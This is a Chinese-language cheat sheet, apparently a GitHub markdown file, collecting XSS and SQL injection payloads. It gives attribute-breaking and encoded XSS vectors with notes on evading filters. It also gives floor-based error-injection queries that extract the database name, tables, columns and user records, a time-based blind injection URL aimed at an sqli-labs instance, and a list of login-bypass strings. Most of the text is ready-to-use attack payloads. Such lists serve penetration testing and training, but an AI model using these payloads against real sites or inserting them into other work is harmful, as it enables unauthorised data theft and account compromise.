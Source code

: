 ﻿# xss/sql注入语句



---

1、有效和重要的xss语句：
--------------

  1、  "onfocus="alert(1)"autofocus="
  变形：

    'onfocus='alert&#40;1&#41;'autofocus='
    &#34;onfocus=&#34;alert(1)&#34;autofocus=&#34;
这种payload还是有可能成功的，xss测试时推荐先使用，原因为大部分input标签结构为：

    <input id="searchBox" name="q" placeholder="搜索问题或关键字" class="form-control" value="" type="text">
当输入此payload时可以闭合引号，实现js的执行。
    
    
    
2、`<marquee style="background-color:red" onstart="alert('xss')">text</marquee>`
字幕标签，很有可能没被过滤。
    
    
    
3、`<img src=# onerror=&#101;&#118;&#97;&#108;("\x61\x6c\x65\x72\x74\x28\x2fxss/)")>`
原型很简单，此处使用16进制编码alert，自然条件下即可执行。
接下来推荐一个我见过最强大的编码和解码的工具：
![此处输入图片的描述][1]

[工具链接][2]

4、`<details ontoggle=alert(1)>`
变形为：`<details open="" ontoggle=alert(/xss/)>`
还可以使用unicode编码进行变形：
`<details ontoggle="aler\u0074(1)">` 

非常有效的xss语句，标签和事件很有可能都没被过滤，变形效果更好，无需点击即可触发。
    
5、`<div contextmenu="xss">Right-Click Here<menu id="xss" onshow="alert(1)">`
没有敏感标签，需要右键点击触发。

6、`<iframe src=x onmouseover=alert(1)></iframe>`
和`<a src=x onmouseover=alert(1)>aaa</a>`
iframe标签偶尔不过滤，a标签经常不过滤，这两个payload就显得有用了。





2、有效和重要的sql语句：
--------------
###1、盲注常用函数###

***1、mid()---从文本字段中提取字符***

    SELECT MID(column_name,start[,length]) FROM table_name;

column_name 必需。要提取字符的字段。

start 必需。规定开始位置（起始值是 1）。

length 可选。要返回的字符数。如果省略，则 MID() 函数返回剩余文本。

***2、limit()---返回前几条或者中间某几行数据***

    select * from table limit m,n;

其m指记录始index0始表示第条记录 n指第m+1条始取n条

***3、concat、concat_ws、group_concat---连接字符串***

根据返回值来判断有无此字符串。

***4、rand()---用于产生一个0~1的随机数***
***5、group by---依据我们想要的规则对结果进行分组***
***6、floor()---向下取整***
***7、Substr()---截取字符串 三个参数 （所要截取字符串，截取的位置，截取的长度）***
***8、Ascii()---返回字符串的ascii码***
###2、报错注入（floor报错）###

    select count(*),(concat(0x3a,database(),0x3a,floor(rand()*2))) name from information_schema.tables group by name; --获取数据库
    select count(*),concat(0x3a,0x3a,(select table_name from information_schema.tables where table_schema=database() limit 3,1),0x3a,floor(rand()*2)) name from information_schema.tables group by name;--获取表
    select count(*),concat(0x3a,0x3a,(select column_name from information_schema.columns where table_name='users' limit 0,1),0x3a,floor(rand()*2)) name from information_schema.tables group by name;--获取字段名
    select count(*),concat(0x3a,0x3a,(select username from users limit 0,1),0x3a,floor(rand()*2)) name from information_schema.tables group by name;--获取内容

###3、基于布尔盲注###
通过构造sql语句，通过判断语句是否执行成功来对数据进行猜解。

    select table_name from information_schema.tables where table_schema=database() limit 0,1;--获取表名第一个字符

###4、基于时间盲注###
基于的原理是，当对数据库进行查询操作，如果查询的条件不存在，语句执行的时间便是0.但往往语句执行的速度非常快，线程信息一闪而过，得到的执行时间基本为0。但是如果查询语句的条件不存在，执行的时间便是0，利用该函数这样一个特殊的性质，可以利用时间延迟来判断我们查询的是否存在。

    payload = "http://127.0.0.1/sqli-labs/Less-8/?id=1' and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),{0},1))>{1},0,sleep(5)) %23"--获取表名
###5、常用测试语句###
'='
"="
    1： "or "a"="a
   2： ')or('a'='a
   3：or 1=1--
   4：'or 1=1--
   5：a'or' 1=1--
   6： "or 1=1--
   7：'or'a'='a
   8： "or"="a'='a
   9：'or''='
   10：'or'='or'
   11: 1 or '1'='1'=1
   12: 1 or '1'='1' or 1=1
   13: 'OR 1=1%00
   14: "or 1=1%00
   15: 'xor
  [1]: http://www.xfcxc.top/Adgainai4/xsstool.png
  [2]: http://evilcos.me/lab/xssee/